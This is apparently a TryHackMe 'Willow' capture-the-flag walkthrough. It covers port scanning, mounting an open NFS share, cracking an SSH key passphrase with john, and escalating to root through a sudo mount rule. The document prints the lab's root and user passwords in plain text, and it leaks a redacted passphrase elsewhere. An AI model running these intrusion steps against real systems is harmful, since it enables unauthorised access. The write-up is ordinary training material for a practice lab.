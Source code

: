 # Willow

## nmap scan
nmap -sC -sV -A IP -v

INITIAL
```
PORT     STATE SERVICE VERSION                                                                                                                                                                
22/tcp   open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.10 ((Debian))                                          
| http-methods:                                                                                
|_  Supported Methods: GET HEAD POST OPTIONS                                                   
|_http-server-header: Apache/2.4.10 (Debian)                                                   
|_http-title: Recovery Page                                                                    
111/tcp  open  rpcbind 2-4 (RPC #100000)                                                       
2049/tcp open  nfs_acl 2-3 (RPC #100227)
```

## gobuster
COMMON
```
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/index.html (Status: 200)
/server-status (Status: 403)
```

## webpage data decryption
> REDACTED

## probable username : REDACTED

# 1. user.txt

	1. search for possible nfs mounts `showmount -e IP`
```
Export list for 10.10.208.225:                                                                  
/var/failsafe *
```
	2. mkdir tmp && mkdir /tmp/nfs
		1. sudo mount -t nfs IP:/var/failsafe ./tmp/nfs
	
  3. ls -la ./tmp/nfs
```
total 8
drwxr--r-- 2 nobody nogroup 4096 Jan 30  2020 .
drwxr-xr-x 1 user   user       6 Feb 25 19:29 ..
-rw-r--r-- 1 root   root      62 Jan 30  2020 rsa_keys
```

	4. cat ./tmp/nfs/rsa_keys
```
Public Key Pair: (23, 37627)
Private Key Pair: (61527, 37627)
```

	5. use this site https://www.cs.drexel.edu/~jpopyack/Courses/CSP/Fa17/notes/10.1_Cryptography/RSA_Express_EncryptDecrypt_v2.html
		1. with decryption key : `61527`
		2. and with modulus : `37627`
	
  6. use ssh to john `python2 /usr/share/john/ssh2john.py rsakey > rsaHASH`
	
  7. use john `john rsakey -w=/usr/share/wordlists/rockyou.txt`
```
passphrase: REDACTED
```
	
  8. ssh into the server using passphrase wildflower `ssh -i rsakey wildflower@IP`
	
	9. scp -i rsakey willow@IP:/user.jpg .

	10. open user.jpg flag is there fuck sake i spent half an hour using steghide and such on it this is a direct callout MuirlandOracle


```
THM{REDACTED}
```

# 2. root.txt

	1. sudo -l shows us the following
```
Matching Defaults entries for willow on willow-tree:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User willow may run the following commands on willow-tree:
    (ALL : ALL) NOPASSWD: /bin/mount /dev/*

```

	2. ls -la on /dev/ 
	
  3. we find an interesting directory called `hidden_backups`
	 
  4. looking for a place to mount this directory we check /mnt
  
	1. in /mnt we find an empty directory called creds lets mount hidden_backup in there

	2. sudo /bin/mount /dev/hidden_backup /mnt/creds/ ( used to mount hidden_backups into the creds directory )
	
  5. cat /mnt/creds/creds.txt
```
root:7QvbvBTvwPspUK
willow:U0ZZJLGYhNAT2s
```

	6. su root with root passwd
	
  7. change to root directory and cat root.txt
```
This would be too easy, don't you think? I actually gave you the root flag some time ago.
You've got my password now -- go find your flag!
```
	
  8. go back to the user.jpg and use steghide on it 
  
    1. `steghide --extract -sf user.jpg -xf userOUTPUT` 
    2. use the password for root as the passphrase and you get the flag
	
  9. cat userOUTPUT

```
THM{REDACTED}
```
